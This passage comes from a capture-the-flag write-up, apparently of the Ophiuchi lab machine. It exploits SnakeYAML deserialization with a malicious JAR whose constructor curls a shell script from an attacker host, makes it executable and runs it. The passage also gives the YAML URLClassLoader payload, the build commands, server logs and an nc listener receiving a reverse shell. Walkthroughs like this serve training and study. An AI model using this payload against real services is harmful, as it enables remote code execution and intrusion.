 1.  Use or to upload a Bash script that provides a ReverseShell.`curl``wget`
2.  `chmod` that script .`+x`
3.  Call the script.

This can be done in one JAR payload:

     10     public AwesomeScriptEngineFactory() throws InterruptedException {
     11         try {
     12             Process p = Runtime.getRuntime().exec("curl http://10.10.14.7/shell.sh -o /dev/shm/.s.sh");
     13             p.waitFor();
     14             p = Runtime.getRuntime().exec("chmod +x /dev/shm/.s.sh");
     15             p.waitFor();
     16             p = Runtime.getRuntime().exec("/dev/shm/.s.sh");
     17         } catch (IOException e) {
     18             e.printStackTrace();
     19         }
     20     }
    

I’ll compile, Jar, and move it into :`www`

    oxdf@parrot$ javac src/artsploit/AwesomeScriptEngineFactory.java
    oxdf@parrot$ jar -cvf rev.jar -C src/ .
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1837) (out= 784)(deflated 57%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1730) (out= 462)(deflated 73%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    oxdf@parrot$ mv rev.jar www/
    

The payload is:

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/rev.jar"]
      ]]
    ]
    

There’s three requests at the Python HTTP server, two for the Jar, and then for the shell:

    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /shell.sh HTTP/1.1" 200 -
    

Then there’s a shell at listening :`nc`

    oxdf@parrot$ sudo nc -lnvp 443                  
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.227] 37728
    bash: cannot set terminal process group (730): Inappropriate ioctl for device
    bash: no job control in this shell
    tomcat@ophiuchi:/$ id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
    